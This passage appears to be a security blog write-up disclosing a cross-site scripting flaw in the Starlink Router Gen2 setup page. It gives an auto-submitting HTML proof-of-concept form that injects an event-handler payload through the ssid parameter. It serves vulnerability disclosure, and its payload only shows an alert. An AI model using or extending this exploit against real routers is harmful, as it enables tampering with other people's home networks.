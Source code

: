 ![img1.png](/blog/2023-Starlink-Router-Gen2-XSS/img1.png)

The vulnerability is caused by insufficient filtering of input values for the `ssid` and `password` parameters on the initial `captive portal` page ([http://192.168.1.1/setup](http://192.168.1.1/setup)).

```html
<html>
	<body>
		<h1>Proof of Concept</h1>
		<form id="PoC" method="POST" action="http://192.168.1.1/setup">
			<input type="hidden" name="ssid" value='" onfocus=javascript:alert(`XSS`); autofocus="'>
			<!-- <input type="hidden" name="password" value='" onfocus=javascript:alert(`XSS`); autofocus="'> -->
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```
